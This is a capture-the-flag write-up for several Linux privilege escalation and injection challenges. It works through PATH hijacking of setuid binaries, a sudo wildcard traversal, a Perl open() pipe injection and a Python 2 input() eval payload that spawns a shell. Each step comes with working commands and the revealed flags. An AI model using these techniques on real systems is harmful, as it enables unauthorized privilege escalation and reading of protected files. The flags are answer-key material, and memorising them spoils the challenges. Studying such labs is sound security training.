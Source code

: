 # Bash - System 1
Source 
```C
#include <stdlib.h>
#include <stdio.h>
 
/* gcc -m32 -o ch11 ch11.c */
 
int main(void) 
{
	system("ls /challenge/app-script/ch11/.passwd"); 
	return 0;
}
```
Solve
```assembly
app-script-ch11@challenge02:~$ mkdir /tmp/tmp1/ ; cd /tmp/tmp1
app-script-ch11@challenge02:/tmp/tmp1$ export PATH="/tmp/tmp1:${PATH}"
app-script-ch11@challenge02:/tmp/tmp1$ ln -s /bin/cat ls
app-script-ch11@challenge02:/tmp/tmp1$ ~/ch11
!oPe96a/.s8d5
```

Flag is : ```!oPe96a/.s8d5```

# sudo - weak configuration

by using the command : `sudo -l` We can see our rights in the sudo world. And as the command says :
```assembly
app-script-ch1@challenge02:~$ sudo -l
Matching Defaults entries for app-script-ch1 on challenge02:
    env_reset, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, !mail_always, !mail_badpass, !mail_no_host, !mail_no_perms, !mail_no_user

User app-script-ch1 may run the following commands on challenge02:
    (app-script-ch1-cracked) /bin/cat /challenge/app-script/ch1/ch1/*
```
’*’ being a good soldier, it can be replaced by everything... even ’../’
So, to get the file /shell1cracked/.flag we can use :
```assembly
app-script-ch1@challenge02:~$ sudo -u app-script-ch1-cracked  cat /challenge/app-script/ch1/ch1/../ch1cracked/.passwd
b3_c4r3full_w1th_sud0
```
Flag is : ```b3_c4r3full_w1th_sud0```

# Bash - System 2
Source:

```C
#include <stdlib.h>
#include <stdio.h>
 
int main(){
	system("ls -lA /challenge/app-script/ch12/.passwd");
	return 0;
}
```
Solve 0x1:
```assembly
app-script-ch12@challenge02:~$ mkdir /tmp/pwnd
app-script-ch12@challenge02:~$ cp /bin/nano /tmp/pwnd/ls
app-script-ch12@challenge02:~$ export PATH=/tmp/pwnd:$PATH
app-script-ch12@challenge02:~$ ./ch12
```
Solve 0x2:
```assembly
app-script-ch12@challenge02:~$ mkdir /tmp/pwnd1 ; cd /tmp/pwnd1
app-script-ch12@challenge02:/tmp/pwnd1$ nano pwn.c
app-script-ch12@challenge02:/tmp/pwnd1$ g++ pwn.c -o pwn
app-script-ch12@challenge02:/tmp/pwnd1$ export PATH=/tmp/pwnd1:$PATH
app-script-ch12@challenge02:/tmp/pwnd1$ mv pwn ls
app-script-ch12@challenge02:/tmp/pwnd1$ ~/ch12 
8a95eDS/*e_T#
```
Pwn.c code :
```C
#include <stdlib.h>
#include <stdio.h>

int main(int argc, char  *argv[]){
       system("cat /challenge/app-script/ch12/.passwd");
       return 0;
}
```
Flag is : ```8a95eDS/*e_T#```

# Perl - Command injection
Source :

```perl
#!/usr/bin/perl

delete @ENV{qw(IFS CDPATH ENV BASH_ENV)};
$ENV{'PATH'}='/bin:/usr/bin';

use strict;
use warnings;

main();

sub main {
    my ($file, $line) = @_;

    menu();
    prompt();

    while((my $file = <STDIN>)) {
        chomp $file;

        process_file($file);

        prompt();
    }
}

sub prompt {
    local $| = 1;
    print ">>> ";
}
sub menu {
    print "*************************\n";
    print "* Stat File Service    *\n";
    print "*************************\n";
}

sub check_read_access {
    my $f = shift;

    if(-f $f) {
        my $filemode = (stat($f))[2];

        return ($filemode & 4);
    }

    return 0;
}

sub process_file {
    my $file = shift;
    my $line;
    my ($line_count, $char_count, $word_count) = (0,0,0);

    $file =~ /(.+)/;
    $file = $1;
    if(!open(F, $file)) {
        die "[-] Can't open $file: $!\n";
    }


    while(($line = <F>)) {
        $line_count++;
        $char_count += length $line;
        $word_count += scalar(split/\W+/, $line);
    }

    print "~~~ Statistics for \"$file\" ~~~\n";
    print "Lines: $line_count\n";
    print "Words: $word_count\n";
    print "Chars: $char_count\n";

    close F;
}
```
Solve:
```assembly
app-script-ch7@challenge02:~$ ./setuid-wrapper 
*************************
* Stat File Service    *
*************************
>>> | cat .passwd
~~~ Statistics for "| cat .passwd" ~~~
Lines: 0
Words: 0
Chars: 0
PerlCanDoBetterThanYouThink
```
Flag is : ```PerlCanDoBetterThanYouThink```

#python - exploit me 1
Source :
```python
#!/usr/bin/python2
 
import sys
 
def youLose():
    print "Try again ;-)"
    sys.exit(1)
 
 
try:
    p = input("Please enter password : ")
except:
    youLose()
 
 
with open(".passwd") as f:
    passwd = f.readline().strip()
    try:
        if (p == int(passwd)):
            print "Well done ! You can validate with this password !"
    except:
        youLose()
```
Now we know that the flag located in .passwd is just a set of numbers and if your input matched this numbers it will print ```Well done ! You can validate with this password !``` so i first tryed to buruteforce
```bash
#!/bin/bash

i=0;
while true; do
   echo 'echo '"$i"' | /challenge/app-script/ch6/setuid-wrapper'
   if [[ $(echo $i | /challenge/app-script/ch6/setuid-wrapper) =~ "Well done " ]] ; then
       echo "$i is the password";
        break;
   fi
   let i++
done

```
but it seemed like it will take forever so it exploited it.
```assembly
app-script-ch6@challenge02:~$ ./setuid-wrapper 
Please enter password : __import__("os").execl("/bin/sh","sh")
$ cat .passwd
13373439872909134298363103573901
$ 
```
Flag is ```13373439872909134298363103573901```
